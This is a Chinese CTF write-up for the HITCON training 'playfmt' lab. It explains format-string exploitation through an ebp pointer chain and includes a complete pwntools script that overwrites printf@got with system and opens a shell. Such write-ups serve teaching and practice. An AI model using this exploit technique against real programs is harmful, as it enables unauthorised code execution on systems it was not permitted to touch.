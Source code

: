 ```yaml
---
title: lab9_playfmt
date: 2019-07-11
categories: 
- hitcon_trainning
tags: stack formating_string
---
```


# 格式化字符串漏洞

格式化字符串漏洞的两个利用方式     

- 泄露栈上内容  
- 改写某地址内容（前提是这个地址要在栈上，也就是printf可控的地方）

原理是**用格式化字符串对栈上的相对而言的参数进行解析**。  


>如果用的%k\$p、%k\$x等就是打印出来相对printf的第几个参数；  
>%s可以打印栈上地址指向的内容（等会用这个打印printf@got），也可以用来破坏程序；  
>%n可以向地址类参数指向的地方写入内容。 

---

# 思路

一开始就是没有思路，太菜了，真的太菜了TAT。  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190713103412691.png)  
这里的buf是在bss段，也就是意味着没有办法用常规方法做。  
看了<a href="https://www.jianshu.com/p/2cae38284bff">大佬的wp</a>才知道可以控制ebp来实现地址任意写。  
但是我觉得或许用栈迁移也可以试一下。  
先写一波控制ebp！  

## 为什么buf在bss段就没法用常规方法？  
- 常规方法是利用栈上内容可写，将其写为某个地址，然后用%k$n这样的方式把这个地址指向的内容改掉。 而现在buf没法通过直接写入来控制栈上的地址。  

## **控制ebp**

现在关键是要找到栈上哪些位置里面的内容是地址而且是可以控制栈上别的位置的内容的，以此来写入我们的目的地址。这个地方就是ebp。  

ebp本来就是用来保存之前的ebp的内容。比如我们设想一个情况：
>ebp_1是相对printf的**第6个参数**，里面存着ebp_2的地址;    
>
>ebp_2是相对printf的**第10个参数**;
>
>格式化字符串漏洞就可以通过 **%6$n**改写ebp_2指向别的地方。  

改写过后，ebp_2内就是栈上另外位置的地址，我们假设他是fmt_7，是相对于printf的**第7个参数**。   

> **%10$n** 就可以让fmt_7指向printf@got。  
>   
> **%7$s** 就可以打印出printf@got的内容   

从而计算出system的真实地址。   
用 **%7$n**就可以直接改写printf@got为system的地址，接下来再调用printf就是调用system了。   

但是有一个问题，%k$**n**一用就炸，也就是说我们起码要用**hn**，在找fmt_7的时候要求其内容的前两个字节和got表的前两个字节是相同的。  
并且在改写printf@got的时候，至少要把它分为两次写进去，那么我们就还要有一个地方指向printf@got+2，这个地址的要求和fmt_7是一样的。
   
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019071310343141.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190713103441692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70)

# exp

```python
from pwn import *

context.log_level='debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']


sh = process('./playfmt')
elf = ELF('./playfmt')
libc = elf.libc

#gdb.attach(sh)

#-----------------address prepare----------------

printf_got = elf.got['printf']
printf_libc = libc.symbols['printf']
system_libc = libc.symbols['system']

sh.recv()
sh.sendline('%6$x')

ebp_2 = int(sh.recv(),16)
fmt_7 = ebp_2-0xc
fmt_11 = ebp_2+0x4
ebp_1 = fmt_7-0x4

#-----------------ebp_2-->fmt_7--------------------

payload = '%'+str(fmt_7 & 0xffff)+'c%6$hn\x00'
sh.sendline(payload)

sleep(0.3)

'''
这里的一段while，是因为%kc输出的实在太多了
recv()每次只能接受0x1000的内容
如果没有循环的话会卡住。
用一个标识符做接受完成标志
至于为什么这里每次都要sendline('yes!')
因为他可能前面的输出加上'ye'刚好就是0x100,后面就会因为只有's!'而没法跳出循环，就卡死了
[↑血的教训=皿=]
sleep(0.1)是两个sendline之间的常规操作来应对玄学问题[我猜的]。
'''
sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break



#-----------------fmt_7-->printf@got----------------

payload = '%' + str(printf_got & 0xffff)+'c%10$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break


#-----------------ebp_2-->fmt_11--------------------

payload = '%' + str(fmt_11 & 0xffff) + 'c%6$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break

#-----------------fmt_11-->printf@got+2---------------

payload = '%' + str((printf_got+2) & 0xffff) +'c%10$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break
#-----------------calculate system address-------------

sh.sendline('%7$s')
printf_elf = u32(sh.recv(4))

system_elf = printf_elf-printf_libc+system_libc

log.info('************{:#x}***********'.format(system_elf))

#----------------change global offset table------------

addr_1 = system_elf & 0xffff
addr_2 = system_elf>>16

'''
这里是防止addr_2比addr_1小
嘻嘻，从师傅那里偷学的方法=v=
'''

ls=[0,addr_1,addr_2]
ls.sort()
lis={0:0,addr_1:7,addr_2:11}

payload=''
for i in range(1,3):
    payload += '%' + str(ls[i]-ls[i-1]) + 'c%' + str(lis[ls[i]]) + '$n'
payload += '\x00'

log.info('************{}***********'.format(payload))

sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break

sleep(0.1)

sh.sendline('/bin/sh')

sh.interactive()
sh.close()
```
---
# **栈迁移**

这个思路按理是可以的，把do_fmt的返回地址改成read的，按照常规栈迁移的套路来，然后用read做栈溢出，输入quit就可以开始栈迁移。但是ebp_1怎么变是一个问题，%k$n的输出太长了会炸是另一个问题，好麻烦啊。不想写了。【可能这就是我咸鱼的原因。】